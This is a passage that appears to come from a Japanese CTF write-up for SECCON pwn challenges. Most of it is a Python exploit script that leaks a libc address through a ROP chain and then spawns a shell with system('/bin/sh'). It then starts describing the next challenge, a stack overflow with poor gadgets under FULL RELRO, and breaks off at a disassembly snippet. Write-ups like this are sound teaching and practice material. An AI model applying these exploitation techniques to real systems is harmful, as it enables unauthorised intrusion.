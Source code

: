 ```python
    symbols[b"main"] # return to main (REENTER address is HERE!!!)
], map=p64)
# payload is ROP chain

assert is_scanf_safe(payload)

# we must satisfy scanf format string!!
sock.sendline(b" answered, a bit confused.\n\"Welcome to SECCON,\" the cat greeted " + payload + b" warmly.I\n")

puts = u64(sock.recv(6).ljust(8, b'\x00'))
print(f"puts: {hex(puts)}") # puts address written on puts@got

libc_base = puts - libc.symbols()[b'puts']
libc.base = libc_base

# reentered to main (ref: line:44)

# 0x404038 is unused buffer
sock.sendlineafter(b'asked.\n', b'%7$d'.ljust(8, b'\x00') + p64(0x404038)) # skip the first scanf
sock.sendline(b'1') # and write 1 to the buffer

# let's craft ROP chain
payload = flat([
    0xdeadbeef,  # fill the buffer
    0xdeadbeef, 
    0xdeadbeef, 
    0xdeadbeef, 
    0xdeadbeef, 
    next(elf.gadget("ret")),
    next(elf.gadget("pop rdi; ret")),
    next(libc.search(b"/bin/sh\x00")),
    libc.symbols()[b'system']
], map=p64)

sock.sendline(b" answered, a bit confused.\n\"Welcome to SECCON,\" the cat greeted " + payload + b" warmly.I\n")

sock.sh()

code.interact(local=locals())
```

## [pwn] Make ROP Great Again

自明なStack BoFがあるが、ROPガジェットが終わっているためリークができない。FULL Relroなのでinitを使ってputs(stdout)もできず、リークを頑張るという問題。

バイナリ中にリークに使えそうな場所を探すと、

```
4010e7:       bf 10 40 40 00          mov    edi,0x404010
4010ec:       ff e0                   jmp    rax
4010ee:       66 90                   xchg   ax,ax
4010f0:       c3                      ret
```
